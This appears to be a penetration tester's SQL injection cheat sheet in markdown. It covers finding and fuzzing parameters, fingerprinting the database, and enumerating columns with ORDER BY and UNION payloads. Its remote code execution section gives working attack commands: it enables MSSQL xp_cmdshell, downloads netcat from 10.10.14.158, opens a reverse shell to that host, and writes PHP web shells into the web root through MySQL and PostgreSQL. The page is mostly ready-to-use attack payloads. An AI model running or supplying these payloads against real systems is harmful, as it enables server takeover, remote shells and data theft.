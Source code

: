 ## Identifying SQLi
#### Identify Parameters
Look for **ANY** [[1.2.5 Web Application Enumeration#Parameter Fuzzing|parameters]] that can be manipulated by the user.
#### Fuzz Payloads
Using Burp's Intruder, fuzz with some common [[SQLi Fuzzing Payloads]].
#### Filter Results
- Look for errors in the responses . Can also use Burp's `Grep - Match` and add [[SQLi Response Filter|this filter]]
- Look for longer response times to indicate Blind SQLi
#### Identify Database
###### Generic Error-Based Identification
```
You have an error in your SQL syntax near '...' at line 1   # MySQL
Unclosed quotation mark after the character string '...'   # MSSQL
syntax error at or near "..."                              # PostgreSQL
ORA-00933: SQL command not properly ended                 # Oracle
SQLITE_ERROR: near "..."                                   # SQLite
```
###### MySQL / MariaDB
```
SELECT @@version;
SELECT version();
SELECT @@version_comment;
```
###### MSSQL
```
SELECT @@version;
SELECT SERVERPROPERTY('ProductVersion');
SELECT SERVERPROPERTY('Edition');
```
###### PostgreSQL
```
SELECT version();
SELECT current_setting('server_version');
```
###### Oracle
```
SELECT * FROM v$version;
SELECT banner FROM v$version;
SELECT version FROM v$instance;
```
###### SQLite
`SELECT sqlite_version();`

---
## Exploiting SQLi
Once an exploitable parameter has been identified, we can construct queries to interrogate the database or more:
### Authentication Bypass

### Database Enumeration
#### Determine the number of columns required
###### Method 1
`' ORDER BY 1-- `
`' ORDER BY 2-- `
`' ORDER BY 3-- `

Continue until an error is hit such as:
`The ORDER BY position number 3 is out of range of the number of items in the select list.`
###### Method 2
`' UNION SELECT NULL-- `
`' UNION SELECT NULL,NULL-- `
`' UNION SELECT NULL,NULL,NULL-- `
###### Oracle Specific Syntax
`' UNION SELECT NULL FROM DUAL--`
**Note:** On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose.

If the number of nulls does not match the number of columns, an error such as the following should be returned:
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

---
### Remote Code Execution
###### MSSQL XP_CMDSHELL
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
EXEC xp_cmdshell 'powershell -command "(New-Object System.Net.WebClient).DownloadFile(''http://10.10.14.158/nc.exe'', ''C:\Reports\nc.exe'')"';
EXEC xp_cmdshell 'C:\Reports\nc.exe 10.10.14.158 4444 -e cmd.exe'
```
OR
`EXEC xp_cmdshell 'powershell -e "<base64-powershell-reverseshell>"'`
###### MySQL & MariaDB Webshell Injection
``' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //``
###### PostgreSQL Webshell Injection
`COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/tmp/webshell.php';`